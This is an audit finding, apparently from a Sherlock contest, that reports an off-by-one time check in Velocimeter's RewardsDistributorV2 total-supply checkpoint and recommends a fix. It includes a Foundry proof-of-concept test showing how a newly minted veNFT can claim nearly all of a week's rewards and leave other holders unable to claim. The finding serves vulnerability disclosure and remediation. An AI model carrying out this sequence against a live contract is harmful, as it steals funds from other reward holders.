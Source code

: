 Fresh Azure Copperhead

High

# `ve_supply` is updated incorrectly

## Summary
An incorrect time check causes `ve_supply[t]` to be updated incorrectly.
## Vulnerability Detail
When [`RewardsDistributorV2#checkpoint_total_supply‎()`](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/RewardsDistributorV2.sol#L142-L167) is called, the total supply at time `t` will be stored in `ve_supply[t]` for future distribution reward calculations:
```solidity
    function _checkpoint_total_supply() internal {
        address ve = voting_escrow;
        uint t = time_cursor;
        uint rounded_timestamp = block.timestamp / WEEK * WEEK;
        IVotingEscrow(ve).checkpoint();

        for (uint i = 0; i < 20; i++) {
            if (t > rounded_timestamp) {
                break;
            } else {
                uint epoch = _find_timestamp_epoch(ve, t);
                IVotingEscrow.Point memory pt = IVotingEscrow(ve).point_history(epoch);
                int128 dt = 0;
                if (t > pt.ts) {
                    dt = int128(int256(t - pt.ts));
                }
@>              ve_supply[t] = Math.max(uint(int256(pt.bias - pt.slope * dt)), 0);
            }
            t += WEEK;
        }
        time_cursor = t;
    }
```
`ve_supply[t]` should be only updated when `t` week has end (`t + 1 weeks <= block.timestamp`) . However, `ve_supply[t]` could be updated incorrectly when `block.timestamp % 1 weeks` is `0`. If a `veNFT` is created immediately after `checkpoint_total_supply‎()` is called, its balance will not be accounted for in `ve_supply[t]`. A malicious user could exploit this flaw to steal future distribution rewards.

Copy below codes to [RewardsDistributorV2.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/RewardsDistributorV2.t.sol) and run `forge test --match-test testStealFutureDistributeReward`
```solidity
    function testStealFutureDistributeReward() public {
        initializeVotingEscrow();

        vm.warp((block.timestamp + 1 weeks) / 1 weeks * 1 weeks); 
        minter.update_period();
        //@audit-info malicious can mint a new nft (tokenId == 3) to steal future distribution reward
        flowDaiPair.approve(address(escrow), 2e18);
        escrow.create_lock(2e18,50 weeks);
        //@audit-info 10e18 DAI was deposited into distributor
        DAI.transfer(address(distributor), 10e18);
        vm.warp(block.timestamp + 1 weeks);
        //@audit-info update_period() is called to update  `tokens_per_week`
        minter.update_period();
        //@audit-info the owner of token3 is eligible to claim almost all distribution reward
        assertApproxEqAbs(distributor.claimable(3),  10e18, 0.2e18);
        distributor.claim(3);
        //@audit-info distributor doesn't have enough DAI for token1 to claim
        assertLt(DAI.balanceOf(address(distributor)), 0.2e18);
        assertEq(distributor.claimable(1), 5e18);
        vm.expectRevert();
        distributor.claim(1);
    }
```
## Impact
A malicious user could create a new veNFT to steal future distribution rewards, leaving other eligible users without any rewards to claim.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/RewardsDistributorV2.sol#L149
## Tool used

Manual Review

## Recommendation
Make sure that `ve_supply[t]` should be only updated when `t` week has end (`t + 1 weeks <= block.timestamp`):
```diff
    function _checkpoint_total_supply() internal {
        address ve = voting_escrow;
        uint t = time_cursor;
        uint rounded_timestamp = block.timestamp / WEEK * WEEK;
        IVotingEscrow(ve).checkpoint();

        for (uint i = 0; i < 20; i++) {
-           if (t > rounded_timestamp) {
+           if (t >= rounded_timestamp) {
                break;
            } else {
                uint epoch = _find_timestamp_epoch(ve, t);
                IVotingEscrow.Point memory pt = IVotingEscrow(ve).point_history(epoch);
                int128 dt = 0;
                if (t > pt.ts) {
                    dt = int128(int256(t - pt.ts));
                }
                ve_supply[t] = Math.max(uint(int256(pt.bias - pt.slope * dt)), 0);
            }
            t += WEEK;
        }
        time_cursor = t;
    }
```
